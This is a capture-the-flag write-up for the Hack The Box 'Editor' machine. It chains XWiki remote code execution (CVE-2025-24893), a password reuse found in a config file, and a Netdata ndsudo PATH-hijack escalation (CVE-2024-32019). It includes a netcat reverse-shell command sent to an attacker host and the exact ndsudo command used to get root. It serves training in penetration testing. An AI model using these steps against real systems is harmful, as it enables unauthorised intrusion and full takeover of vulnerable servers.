### Machine Information
  * Machine Name: Editor
  * OS: Linux
  * Difficulty: Easy
  * Points: 20

### Attack Sequence
  * During The Scanning, We found SSH open and HTTP on port `80 (http://editor.htb)` and `8080`, After Enumeration the domain (editor.htb), We found subdomain called `wiki.editor.htb` based on `XWiki v15.10.8` service and this version is vulnerable with this `CVE-2025-24893` and this CVE is RCE (Remote Command Execution), We found a credentials of user `oliver` in one of XWiki config files and login as user `oliver` with SSH and we've got `user.txt` file (User Flag), And We found service running internaly on oliver's machine called `netdata v1.45.2`, This version is vulnerable to privilege escalation via path manipulation, We exploited this vulnerability and got root's shell and finally got `root.txt` file (Root Flag).

### Scanning
  * We scanned the target with `Nmap`
    * `nmap -sC -sV <MACHINE IP>`.
    * We found SSH open and HTTP on port `80 (http://editor.htb/)` and `8080`.
  

### Enumeration And Vulnerable Service Exploitation
  * I enumerated the domain (editor.htb) and i found only one subdomain called `wiki.editor.htb`, This subdomain based-on `XWiki v15.10.8` service.
  
  
  
  
  * After little search, XWiki is an open-source enterprise wiki and application platform written in java, It allowes users to create and manage structured content collaboratively, It's often used for:
    * Knowledge Managment.
    * Documentation.
    * Collaborative Platform.
  * The used version of XWiki version is vulnerable to RCE (Remote Command Execution) `CVE-2025-24893`
  * I used this script to exploit XWiki service ==> https://github.com/gunzf0x/CVE-2025-24893/blob/main/CVE-2025-24893.py and i got reverse shell as user `xwiki`
  
  
  
  
  * I used these command to more interactive shell
    * `which python3` => this command looks for python3
    * `python3 -c "import pty; pty.spawn('/bin/bash')"` => This command gives liitle bit stable shell
    * `Ctrl + Z` ==> This command will put the shell in the background and return to you attacker machine
    * `stty raw -echo; fg` ==> This command will get you back to your reverse shell with full interactive shell
  
  

### How CVE-2025-24893 Works:
  * The exploit checks if domain is reachable via HTTP/HTTPS.
  * Then inject command betweeb double qoutes `"COMMAND"` inside API query via vulnerable endpoint called `SolrSearch` and return the result.
  * In our case we'll inject this command to get reverse shell `busybox nc <ATTACKER IP> <ATTACKER PORT> -e /bin/bash`
  
  
  
  

### Enumerating XWiki's user
  * I found directory called `oliver` in `/home/oliver`, This looks another user and his name is `oliver`.
  * After some manual enumeration i found password of user `oliver` in one of XWiki's config files, I logged in with these credentials via SSH and got access as user `oliver` and got `user.txt` file (User Flag)
  
    
    
    

### Privilege Escalation
  * I found service running localy inside oliver's machine and i used `Local Port Forwarding` with this command `ssh -L 19999:127.0.0.1:19999` to forward the traffic on my attacker machine to access the service.
  * This service called `Netdata v1.45.2` and used for systems and infrustructures' monitoring.
  * The used version of this service is vulnerable privilege escalation via path manipulation `CVE-2024-32019`, I exploited this vulnerability using this exploit https://github.com/AliElKhatteb/CVE-2024-32019-POC and got root access and Finally `root.txt` file (Root Flag).
  
  
  
  
  .png)
  

### How CVE-2024-32019 Works
  * Netdata service uses executable called `nvme` to monitor the storage on the system/infrustructure but it didn't use it by full path, It access it via PATH environment variable, So we can make another executable with same name (nvme) with your shell code and put your vulnerable executable inside directory before the real nvme's directory so Netdata service access your file, Then put you vulneerable file's path in PATH environment variable, Then get you lister ready then execute the file with this command to get root shell `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`
#### Step-By-Step
  * I downloaded POC of the vulnerability on my attacker machine and put Attacker-Ip and Attacker-Port in the exploit to get root shell
  .png)
  * I compiled exploit.c file to get executable called (nvme) and I moved the vulnerable executable to victim machine (oliver) and put it in tmp directory `/tmp` and I gave execution permission
   
  
  * I got my nc listener ready to recieve the root shell
  
  * Put the vulnerable file's path inside PATH environment variable then execute it and recieve the root shell in your listener
  
  
  * BOOM, We got `root.txt` file (Root Flag).